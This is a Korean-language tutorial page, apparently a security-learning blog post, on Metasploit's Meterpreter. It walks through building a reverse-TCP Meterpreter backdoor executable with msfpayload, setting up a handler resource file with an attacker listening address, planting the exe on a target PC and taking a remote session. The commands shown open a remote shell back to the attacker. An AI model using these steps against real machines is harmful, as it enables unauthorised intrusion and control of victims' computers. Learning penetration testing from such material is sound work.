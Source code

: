 ### 메터프리터 기능을 활용
---

메타프리터는 루비 기반의 스크립트로 작성됐으며 취약점을 이용해 대상 서버에 침투한 후 간단한 명령을 이용해 시스템 
정보들을 획득할 수 있는 기능이다.
{: .notice}

---
#### 리소스 파일로 시스템 침투 환경 만들기(백도어)
---

메타프리터를 활용하기 위해서는 시스템 침투가 먼저다. 이를 위해서 백도어를 활용해보자.
{: .notice}

* 백도어 악성 파일을 이용해 공격을 수행하려면 악성 코드를 생성해야한다.
* 공격자 PC에서 핸들러를 생성해 사용자 PC가 악성 코드를 클릭하길 기다려야한다.
	* payload 선택, Option 설정, Exploit 실행을 해야하는데 msfconsole -r 옵션을 사용하여 리소스 파일을 사용할 수도 있다.
{: .notice--info}

```
#핸들러를 생성하는 명령 입력 순서
#cat reverse_resource.rc
use exploit/multi/handler
set PATLOAD windows/meterpreter/reverse_tcp #상대방이 공격 서버에 접급했을 경우 공격 진행
set LHOST 192.168.0.114
set ExitSession false
exploit -j -z
```

콘솔 창을 하나 더 열어 msfpayload를 이용해 리버스 커넥션을 이용한 간단한 악성 코드를 생성한다.
{: .notice}

```
msfpayload windows/meterpreter/reverse_tcp LHOST=공격자 IP X > reverse_test.exe
```

생성한 exe 파일을 대상 PC에서 실행하면 공격자 PC는 대상 PC에 침투한 것과 동일한 환경이 된다.
{: .notice}

```
msfconsole -r reverse_resource.rc
```

즉, 공격자 측에서는 리소스 파일과 공격 코드(exe)을 생성하고 exe 파일을 상대 PC에 복사해놓는다.
그리고 리소스 파일을 실행한다. 그러면 대기 상태가 되는데, 그 상태에서 상대 PC에서 공격 코드를 실행하기를 기다린다.
상대 PC가 공격 코드를 실행하면 세션이 맺어 지면서 상대방의 콘솔 권한을 제어할 수 있게 된다.
{: .notice--info}

```
#sessions -i ID 입력하여 연결
msf > sessions -i 1
```

---
#### 그 외, 기능
---
